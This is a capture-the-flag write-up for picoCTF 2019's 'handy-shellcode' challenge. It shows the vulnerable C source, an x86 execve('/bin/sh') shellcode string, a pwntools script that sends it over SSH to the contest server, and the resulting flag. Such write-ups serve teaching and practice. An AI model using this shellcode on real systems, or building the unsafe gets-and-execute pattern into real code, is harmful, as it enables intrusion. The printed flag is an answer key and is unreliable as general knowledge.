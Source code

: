 # handy-shellcode - Points: 50

## Description

This program executes any shellcode that you give it. Can you spawn a shell and use that to read the flag.txt? You can find the program in /problems/handy-shellcode_3_1a2e95a810eefe4a5994631812c0b8af on the shell server. Source.

## Solution

We're given a binary as well as the source code for this challenge.
The source code is shown below:

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <sys/types.h>

#define BUFSIZE 148
#define FLAGSIZE 128

void vuln(char *buf){
  gets(buf);
  puts(buf);
}

int main(int argc, char **argv){

  setvbuf(stdout, NULL, _IONBF, 0);

  // Set the gid to the effective gid
  // this prevents /bin/sh from dropping the privileges
  gid_t gid = getegid();
  setresgid(gid, gid, gid);

  char buf[BUFSIZE];

  puts("Enter your shellcode:");
  vuln(buf);

  puts("Thanks! Executing now...");

  ((void (*)())buf)();


  puts("Finishing Executing Shellcode. Exiting now...");

  return 0;
}
```

We can see that the ```vuln()``` function stores user input using ```gets(buf)``` and that memory at the address of ```buf``` is executed as a function here:

```c
((void (*)())buf)();
```

As the name of the challenge suggests, we need to input shell code that will allow us to read the flag file.
This can be done by calling ```/bin/sh``` and sending commands through ```stdin```.

To do this, I used shellcode from http://shell-storm.org/shellcode/ for Linux/Intel x86.
The code I chose was execve("/bin/sh") by Magnefikko, which can be found here: http://shell-storm.org/shellcode/files/shellcode-585.php

```
\xeb\x0b\x5b\x31\xc0\x31\xc9\x31\xd2\xb0\x0b\xcd\x80\xe8\xf0\xff\xff\xff\x2f\x62\x69\x6e\x2f\x73\x68
```

## Exploit script

I used pwntools to connect to the shell server, start the process, and send the shellcode and commands to read the flag.
I then switched to interactive mode to receive the flag and allow me to input any other commands, though permissions were restricted to reading this flag only.

```py
#!/usr/bin/python
from pwn import *
from getpass import getpass

pico_user = input("Username: ")[:-1]
pico_pass = getpass("Password: ")

conn = ssh(host = '2019shell1.picoctf.com', user = pico_user, password = pico_pass)

location = '/problems/handy-shellcode_3_1a2e95a810eefe4a5994631812c0b8af'

print("running vuln")
vuln = conn.process(location + '/vuln')

print("sending payload")
vuln.sendlineafter('shellcode', '\xeb\x0b\x5b\x31\xc0\x31\xc9\x31\xd2\xb0\x0b\xcd\x80\xe8\xf0\xff\xff\xff\x2f\x62\x69\x6e\x2f\x73\x68')
vuln.sendlineafter('$', 'cd ' + location)
vuln.sendlineafter('$', 'cat ' + location + '/flag.txt')

print("done")
vuln.interactive()
```

## Flag

```picoCTF{h4ndY_d4ndY_sh311c0d3_5843b402}```

